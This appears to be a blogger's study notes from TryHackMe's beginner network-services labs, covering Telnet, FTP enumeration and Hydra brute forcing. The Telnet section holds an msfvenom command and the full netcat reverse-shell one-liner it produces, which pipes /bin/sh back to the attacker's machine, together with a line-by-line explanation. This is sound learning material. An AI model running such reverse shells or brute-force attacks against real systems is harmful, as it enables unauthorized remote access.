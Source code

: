 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-02

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP \
	lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; \
	nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
	rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren't literal - they're *actually* the local IP address of my machine on TryHackMe's VPN and my chosen port. Neither of which should be particularly sensitive, but I'm still not going to post it on the internet!)

What's going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat's STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The active vs. passive FTP distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

* Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.
* Passive FTP: The server opens a port which the client connects to when establishing the data channel.

References:

* [File Transfer Protocol (Wikipedia)](https://en.wikipedia.org/wiki/File_Transfer_Protocol)

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. Some (older) FTP daemons have a vulnerability where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap's -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

* [Solaris 2.6/7.0 - IN.FTPD CWD 'Username' Enumeration](https://www.exploit-db.com/exploits/20745)

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali's rockyou.txt.gz is apparently a list of 14 million passwords dumped during the hack of some service called RockYou that I hadn't previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)... And stored all of the relevant passwords (including their own) in the clear!

* [rockyou.txt wordlist](https://github.com/zacheller/rockyou)
* [RockYou Hack: From Bad To Worse](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/)
